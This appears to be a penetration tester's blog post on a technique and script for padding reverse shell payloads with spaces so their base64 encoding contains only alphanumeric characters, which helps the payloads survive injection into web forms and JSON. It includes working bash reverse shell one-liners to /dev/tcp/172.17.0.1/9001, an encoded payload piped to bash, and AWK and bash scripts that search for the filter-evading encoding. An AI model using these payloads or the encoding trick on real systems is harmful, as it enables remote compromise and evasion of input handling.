 +++
title = 'Script to Optimize Alphanumeric Base64 for Reverse Shell Payloads'
date = 2023-11-24T16:43:52-06:00
draft = false
+++

# Description of the Problem
when trying a reverse shell payload, you want to remove as many variables as possible.
often it must be injected in the middle of a series of broken quotes or special characters.
it would be beneficial to remove as many special characters as possible.

base64 consists of an alphabet of uppercase, lowercase, numbers, and special symbols like plus signs.
these speical characters have meaning in web payloads, where form encoding or json special characters may mean you have to alter your payload to work properly in the context where you paste it.

- example reverse shell payload for testing in a docker that generates plus signs in its base64
```bash
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzkwMDEgMD4mMScK
```

## Optimizing Base64
If we optimize the base64, we could remove all special characters by altering the payload such that it returns only alphanumeric characters.
One way to do this is by adding spaces. The best place to add spaces is where there are already spaces in a payload.
Usually, there is some combination of spaces which will push the characters into positions in the byte string in which they do not need any special characters to be reresented in the base64 string.
The resulting payload should be free of any special characters except for any pipe characters and spaces that are absolutely necessary.

- optimized base64 payload
```bash
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS85MDAxICAwPiYx|base64 -d|bash
```
- decoding the payload
```bash
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS85MDAxICAwPiYx|base64 -d
bash -i  >& /dev/tcp/172.17.0.1/9001  0>&1
```
As you can see, spaces have been inserted in two locations in order to move the characters around to specific locations.

## The Algorithm

How can this be done?
The easiest algorithm to implement is to just start trying all possibilities of spaces inserted until one converts to alphanumeric base64.
I have [implemented such an algorithm in bash and awk](https://github.com/nicholas-long/environment/blob/main/zet/20230906035744/README.md).
I use this script within the [shortcut command in my environment for creating reverse shell snippets](https://github.com/nicholas-long/environment/blob/main/zet/20230906035650/README.md)

A walkthrough of the script to produce all possible space combinations is implemented below in AWK.

```awk
#!/usr/bin/awk -f
# print all variations of spaces between tokens
function expand_rec(str, pos) {
  if (pos > NF) { # recursion base case - end of char array
    printf("%s\n", str "")
    return
  } else {
    expand_rec(str " " $pos, pos + 1)
    expand_rec(str "  " $pos, pos + 1)
    expand_rec(str "   " $pos, pos + 1)
    expand_rec(str "    " $pos, pos + 1)
  }
}
{
  expand_rec("", 1)
}
```
I call this script "space invader". It uses recursion to produce all variations of spaces.
The goal of this script is to have it run until the output buffer is closed because a solution has been found.

A simple bash script wrapped around it can base64 encode every line until a solution is found.
```bash
#!/bin/bash
# find alphanumeric base64 using awk script
echo "$1" | $ENVIRON_BASEPATH/zet/20230906035744/space-invader | while read line; do
  echo -n "$line" | base64 -w0
  echo ""
done | grep '^[A-Za-z0-9]*$' | head -n 1
```
